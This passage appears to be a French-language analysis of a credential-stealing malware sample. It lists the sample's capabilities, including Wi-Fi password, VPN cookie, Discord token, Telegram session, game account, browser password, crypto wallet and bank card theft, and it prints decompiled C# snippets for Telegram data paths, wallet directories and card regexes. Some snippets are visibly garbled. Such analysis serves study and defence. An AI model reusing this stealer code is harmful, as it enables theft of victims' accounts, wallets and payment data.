 ```C
```
- Une pseudo antiDebug (Faciment Bypassable)
- Un stealer de cookies NordVpn/OpenVpn/ProtonVpn
- Un stealer de mots de passes Wifi (commande cmd "netsh ...")
- Une fonction pour prendre des screenshots de l'écran .
- Une execution de commandes à distance.
- Un DiscordToken Grabber.
- Du code pour voler des sessions télégram :

```C
private static string GetTdata()
		{
			string result = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\Telegram Desktop\\tdata";
			Process[] processesByName = Process.GetProcessesByName("Telegram");
			if (processesByName.Length == 0)
			{
				return result;
			}
			return Path.Combine(Path.GetDirectoryName(ProcessList.ProcessExecutablePath(processesByName[0])), "tdata");
		}
```

- Un stealer de comptes Steam/Minecraft/Uplay grâce aux fichiers temporaires .
- Un stealer de comptes pré-enregistrés sur navigateurs (voir screen plus haut)
- Un stealer de wallets crypto.

```C
private static List<string[]> sWalletsDirectories = new List<string[]>
{
  new string[]{"Zcash",Paths.appdata + "\\Zcash"},
  new string[]{"Armory",Paths.appdata + "\\Armory"},
  new string[]{"Bytecoin",Paths.appdata + "\\bytecoin"},
  new string[]{"Jaxx",Paths.appdata + "\\com.liberty.jaxx\\IndexedDB\\file__0.indexeddb.leveldb"},
  new string[]{"Exodus",Paths.appdata + "\\Exodus\\exodus.wallet"},
  new string[]{"Ethereum",Paths.appdata + "\\Ethereum\\keystore"},
  new string[]{"Electrum",Paths.appdata + "\\Electrum\\wallets"},
  new string[]{"AtomicWallet",Paths.appdata + "\\atomic\\Local Storage\\leveldb"},
  new string[]{"Guarda",Paths.appdata + "\\Guarda\\Local Storage\\leveldb"},
  new string[]{"Coinomi",Paths.lappdata + "\\Coinomi\\Coinomi\\wallets	}
};
```

- Un stealer de cartes bancaires :

```C
private static Dictionary<string, Regex> CreditCardTypes = new Dictionary<string, Regex>
	{
		{"Amex Cardnew Regex("^3[47][0-9]{13}$")},
		{"BCGlobal",new Regex("^(6541|6556)[0-9]{12}$")},
		{"Carte Blanche Card",new Regex("^389[0-9]{11}$")},
		{"Diners Club Card",new Regex("^3(?:0[0-5]|[68][0-9])[0-9]{11}$")},
		{"Discover Card",new Regex("6(?:011|5[0-9]{2})[0-9]{12}$")},
		{"Insta Payment Card",new Regex("^63[7-9][0-9]{13}$")},
		{"JCB Card",new Regex("^(?:2131|1800|35\\\\d{3})\\\\d{11}$")},
		{"KoreanLocalCard",new Regex("^9[0-9]{15}$")},
		{"Laser Card",new Regex("^(6304|6706|6709|6771)[0-9]{12,15}$")},
		{"Maestro Card",new Regex("^(5018|5020|5038|6304|6759|6761|6763)[0-9]{8,15}$")},
		{"Mastercard",new Regex("5[1-5][0-9]{14}$")},
		{"Solo Card",new Regex("^(6334|6767)[0-9]{12}|(6334|6767)[0-9]{14}|(6334|6767)[0-9]{15}$")},
		{"Switch Card",new Regex("^(4903|4905|4911|4936|6333|6759)[0-9]{12}|(4903|4905|4911|4936|6333|6759)[0-9]{14}|(4903|4905|4911|4936|6333|6759)[0-9]{15}|564182[0-9]{10}|564182[0-9]{12}|564182[0-9]{13}|633110[0-9]{10}|633110[0-9]{12}|633110[0-9]{13}$")},
		{"Union Pay Card",new Regex("^(62[0-9]{14,17})$")},
```

[//]: <> (Created By Vozec 25/11/2021)